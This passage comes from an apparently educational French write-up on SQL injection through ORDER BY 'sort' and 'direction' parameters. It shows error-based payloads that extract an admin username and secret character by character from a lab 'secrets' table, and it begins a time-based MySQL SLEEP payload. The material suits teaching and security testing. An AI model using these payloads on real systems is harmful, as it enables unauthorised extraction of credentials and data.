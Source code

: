 ```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('m') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Le nom d'utilisateur est "admin".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('M') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('o') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('n') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Son secret est "Mon mot de passe est passw0rd"

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('M') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('o') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
ASC, (SELECT CASE WHEN ASCII(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('n') THEN lastname ELSE (1/(SELECT 0))::text END)
```

### Time-based

Une injection SQL "time-based" est un type d'attaque SQL qui exploite le temps de réponse du serveur de base de données pour extraire des informations. Contrairement aux techniques précédentes, qui reposent sur des messages d'erreur ou des résultats vrai/faux, les injections SQL "time-based" exploitent les délais pour déduire si une requête est vraie ou fausse. Ce type d'exploitation étant assez long, seules quelques requêtes seront présentées ici.

#### MySQL

_Exploitation du paramètre "sort"_

La payload utilisée est celle-ci :

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING(DATA_TO_RETRIEVE,1,1))=ORD('CHAR_TO_RETRIEVE'),0,5))))a)
```
